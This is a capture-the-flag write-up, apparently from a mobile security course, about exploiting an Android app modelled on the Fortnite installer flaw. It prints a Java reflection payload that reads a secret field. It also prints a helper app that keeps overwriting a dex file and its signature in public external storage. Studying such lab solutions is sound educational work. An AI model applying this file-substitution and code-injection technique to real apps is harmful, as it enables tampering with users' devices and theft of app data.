






# Solution


## Description of the problem

find something useful to get the flag

## Solution

Let's see the description:

> Based on a true story.

Let's find out what this true story is. I search for the key words "fortnite mobile vulnerability" in Google, and I find out [an article](https://themarketingfolks.com/fortnite-mobile-for-android-devices-has-a-serious-security-flaw/) about this. The article says that:

> How the vulnerability works is that any app that has the “WRITE_EXTERNAL_STORAGE” permission can replace the APK after the download is complete. This means that people can replace the APK with malicious software that gives them access to your phone. Additionally the APK installs the package silently in the background so if someone has access to your phone, they can replace the APK with the virus without you noticing while the app is being updated 

So, maybe this challenge is about downloading something in the public storage, and others modify this file, I guess.


Now, let's see the codes.





In MainActivity, the code will download two files, verify the dex file with the signature. If the verification is approved, the class loader will load class `com.mobisec.fortnitepayload.Payload` and run the `run` function/method in this class. The files are downloaded to the `file.getAbsolutePath()`. Therefore, I should build my own dex file with the name of `fortnite.dex` and its sha-2 value in `sign.dat`, use an app to store these two files to `/storage/emulated/0`, and in my own dex file, there should be codes the same class and the same function to get the flag.

To get the flag, in my own dex there should be a classloader in function `run` that can load the `com.mobisec.fortnite.MainActivity` class of the app running in the analysis system and get the value of the `flag`. The java reflection with "Field" method is used here. 

```java
public class Payload {

    public static void run() {
        Log.i("MOBISEC", "package com.mobisec.fortnitepayload.Payload; run()");

        //https://www.tutorialspoint.com/java/lang/thread_getcontextclassloader.htm
        Thread t = Thread.currentThread();
        ClassLoader classloader = t.getContextClassLoader();
        t.setContextClassLoader(classloader);
//        System.out.println("Class = " + classloader.getClass());
//        System.out.println("Parent = " + classloader.getParent());

        try {
            //https://www.cnblogs.com/ldq2016/p/6834643.htm
            Class<?> clz = classloader.loadClass("com.mobisec.fortnite.MainActivity");
            Field field = clz.getDeclaredField("flag");//https://blog.csdn.net/shenhaiwen/article/details/75305176

            field.setAccessible(true);

            Object value = field.get(clz);
            Log.i("MOBISEC", " : " + value);

        } catch (Exception e) {
            Log.w("MOBISEC","package com.mobisec.fortnitepayload,Payload.java: ");
            Log.w("MOBISEC", Log.getStackTraceString(e));
        }
    }
}
```




After [programming this class](AndroidStudioProjects_exploitation/fortnitepayload/app/src/main/java/com/mobisec/fortnitepayload/Payload.java), I build an apk, and unzip this apk package to get the dex file, and put this dex file to the [asset](AndroidStudioProjects_exploitation/fortnite/app/src/main/assets) of another storage program, with the sha-2 hash value. 






Then in the [second Android studio project](AndroidStudioProjects_exploitation/fortnite/app/src/main/java/com/example/fortnite/MainActivity.java), with these assets, the program will copy these assets to the path `/storage/emulated/0`, in an infinite while loop.

```java
private boolean copyAssetsSingleFile(String outPath, String fileName) {
    File file = new File(outPath);
    if (!file.exists()) {
        if (!file.mkdirs()) {
            Log.e("MOBISEC","--Method--"+ "copyAssetsSingleFile: cannot create directory.");
            return false;
        }
    }
    try {
        InputStream inputStream = getAssets().open(fileName);
        File outFile = new File(file, fileName);
        FileOutputStream fileOutputStream = new FileOutputStream(outFile);
        // Transfer bytes from inputStream to fileOutputStream
        byte[] buffer = new byte[1024];
        int byteRead;
        while (-1 != (byteRead = inputStream.read(buffer))) {
            fileOutputStream.write(buffer, 0, byteRead);
        }
        inputStream.close();
        fileOutputStream.flush();
        fileOutputStream.close();
        return true;
    } catch (IOException e) {
        Log.w("MOBISEC", Log.getStackTraceString(e));
        return false;
    }
}//https://blog.csdn.net/u013642500/article/details/80069811
```


Also, the following permissions are needed to allow the program store files to external storage.

```xml
<uses-permission android:name="android.permission.INTERNET"/>
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
    tools:ignore="ScopedStorage" />
```


Finally, I get the flag:




## Optional Feedback


## reference

Fortnite mobile for Android devices has a serious security flaw: https://themarketingfolks.com/fortnite-mobile-for-android-devices-has-a-serious-security-flaw/

Field usage of Java reflection: https://www.cnblogs.com/ldq2016/p/6834643.html

The difference between getClassLoader() and getContextClassLoader(): https://blog.csdn.net/zlfprogram/article/details/87194220

Java.lang.Thread.getContextClassLoader() Method: https://www.tutorialspoint.com/java/lang/thread_getcontextclassloader.htm

Copy the single file in assets to the specified folder: https://blog.csdn.net/u013642500/article/details/80069811